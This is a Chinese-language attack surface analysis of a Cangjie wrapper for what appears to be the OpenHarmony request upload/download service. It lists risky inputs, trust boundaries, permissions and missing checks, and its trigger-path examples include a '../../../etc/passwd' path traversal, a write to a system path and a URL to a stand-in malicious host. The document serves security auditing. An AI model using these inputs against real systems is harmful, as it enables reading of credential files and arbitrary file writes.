

# 攻击面分析

本文档分析 `request_cangjie_wrapper` 的外部输入、敏感操作和信任边界，为安全审计提供基础。

---

## 5.1 外部输入清单

### 输入点分类

| 序号 | 输入点 | 类型 | 数据来源 | 风险等级 |
|------|--------|------|----------|----------|
| 1 | Config.url | String | 用户代码 | 🔴 高 |
| 2 | Config.saveas | String | 用户代码 | 🔴 高 |
| 3 | Config.data | ConfigData | 用户代码 | 🔴 高 |
| 4 | Config.headers | HashMap | 用户代码 | 🟡 中 |
| 5 | FileSpec.path | String | 用户代码 | 🔴 高 |
| 6 | FileSpec.filename | ?String | 用户代码 | 🟢 低 |
| 7 | Config.token | ?String | 用户代码 | 🟡 中 |
| 8 | Config.extras | HashMap | 用户代码 | 🟢 低 |
| 9 | Filter 参数 | 多类型 | 用户代码 | 🟡 中 |

---

## 5.2 高风险输入详解

### 5.2.1 Config.url

**位置**: `agent.cj:596`

```cj
/**
 * The Universal Resource Locator for a task.
 * The maximum length is 8192 characters.
 * Using raw `url` option, even url parameters in it.
 */
public var url: String
```

**风险分析**:
- 用户可指定任意 URL (HTTP/HTTPS)
- 可指向内部网络地址
- 可指向恶意服务器

**触发路径**:
```
用户代码: config.url = "https://malicious.com/payload"
    → Task(config)
    → FfiOHOSRequestCreateTask()
    → request 服务发起网络请求
```

**证据来源**:
- `agent.cj:596`: URL 字段定义，无协议限制

---

### 5.2.2 Config.saveas

**位置**: `agent.cj:687`

```cj
/**
 * The path to save the downloaded file
 * Currently support:
 * 1: relative path, like "./xxx/yyy/zzz.html"
 * 2: internal protocol path, starting with "internal://"
 * 3: application storage path, only base directory and subdirectories
 * 4: file protocol path with self bundle name
 * 5: user file url, like "file://media/Photo/path/to/file.png"
 */
public var saveas: String
```

**风险分析**:
- 用户可指定写入路径
- 路径验证依赖 request 服务
- 可能写入敏感目录

**触发路径**:
```
用户代码: config.saveas = "/data/system/secret.txt"
    → Task(config)
    → 下载完成
    → request 服务写入文件
```

**证据来源**:
- `agent.cj:687`: saveas 字段定义

---

### 5.2.3 FileSpec.path

**位置**: `agent.cj:358`

```cj
/**
 * The path to save the uploaded file
 * Currently support:
 * 1: relative path
 * 2: internal protocol path
 * 3: application storage path
 * 4: file protocol path with self bundle name
 * 5: user file url
 */
public var path: String
```

**风险分析**:
- 上传时读取用户指定文件
- 可能读取敏感文件
- 路径遍历风险

**触发路径**:
```
用户代码: fileSpec.path = "../../../etc/passwd"
    → Task(config)
    → 上传开始
    → request 服务读取文件
```

**证据来源**:
- `agent.cj:358`: path 字段定义

---

### 5.2.4 Config.data

**位置**: `agent.cj:672`

```cj
/**
 * The arguments, it can be any text, uses json usually.
 * For download, it can be raw string
 * For upload, it can be form items
 */
public var data: ?ConfigData
```

**风险分析**:
- 可包含任意数据内容
- 作为 HTTP 请求体发送
- 可能用于 HTTP 注入

**触发路径**:
```
用户代码: config.data = ConfigData.StringValue("malicious payload")
    → Task(config)
    → HTTP 请求体发送
```

**证据来源**:
- `agent.cj:672`: data 字段定义

---

## 5.3 敏感操作

### 5.3.1 网络请求

| 操作 | API | 风险 |
|------|-----|------|
| HTTP/HTTPS 请求 | request 服务发起 | SSRF、DNS 隧道 |
| 重定向跟随 | redirect 字段 | 钓鱼、恶意重定向 |
| HTTP 头注入 | headers 字段 | 响应拆分、注入 |

**证据来源**:
- `ffi.cj:808`: FfiOHOSRequestCreateTask 调用 request 服务

---

### 5.3.2 文件操作

| 操作 | API | 风险 |
|------|-----|------|
| 文件读取 | FileSpec.path | 任意文件读取 |
| 文件写入 | Config.saveas | 任意文件写入 |
| 目录创建 | request 服务内部 | 路径覆盖 |

**证据来源**:
- `agent.cj:358`: FileSpec.path 用于文件读取
- `agent.cj:687`: Config.saveas 用于文件写入

---

### 5.3.3 任务调度

| 操作 | API | 风险 |
|------|-----|------|
| 后台任务创建 | Task() | 资源耗尽 |
| 任务状态订阅 | Task.on() | 信息泄露 |
| Token 管理 | Config.token | 权限绑定 |

**证据来源**:
- `agent.cj:1690`: Task 构造函数创建任务
- `agent.cj:804`: token 字段用于任务隔离

---

## 5.4 信任边界

### 边界图



### 边界跨越点

| 跨越点 | 方向 | 控制措施 |
|--------|------|----------|
| 网络请求 | 应用 → 网络 | 权限校验 (INTERNET) |
| 文件读取 | 应用 → 文件系统 | 权限校验 (READ_MEDIA) |
| 文件写入 | 应用 → 文件系统 | 权限校验 (WRITE_MEDIA) |
| IPC 调用 | 应用 → request 服务 | Bundle 隔离 |

---

## 5.5 权限要求

### 必需权限

| 权限 | 用途 | 最小化建议 |
|------|------|------------|
| ohos.permission.INTERNET | 网络访问 | 按需申请 |
| ohos.permission.WRITE_MEDIA | 文件写入 | 仅上传场景 |
| ohos.permission.READ_MEDIA | 文件读取 | 仅下载场景 |

**证据来源**:
- README.md:63-66: 权限声明

---

## 5.6 安全机制

### 现有机制

| 机制 | 实现位置 | 保护范围 |
|------|----------|----------|
| 路径格式限制 | request 服务 | saveas 路径 |
| Token 隔离 | request 服务 | 任务访问控制 |
| Bundle 隔离 | request 服务 | 应用间隔离 |

### 缺失机制

| 机制 | 风险 | 建议 |
|------|------|------|
| URL 协议限制 | 任意网络请求 | 增加 HTTP/HTTPS 白名单 |
| 路径遍历检测 | 任意文件写入 | 路径规范化验证 |
| 请求内容过滤 | HTTP 注入 | 增加输入验证 |

---

## 5.7 攻击面总结

### 高风险区域

| 区域 | 风险点 | 利用难度 |
|------|--------|----------|
| 网络输入 | URL 字段 | 低 |
| 文件输入 | FileSpec.path | 中 |
| 文件输出 | saveas 字段 | 中 |
| 配置注入 | headers/data | 中 |

### 推荐审计顺序

1. **Config.url** - 验证 URL 协议限制
2. **FileSpec.path** - 验证路径规范化
3. **Config.saveas** - 验证目录遍历
4. **Config.headers** - 验证 HTTP 注入
5. **Config.data** - 验证请求体注入
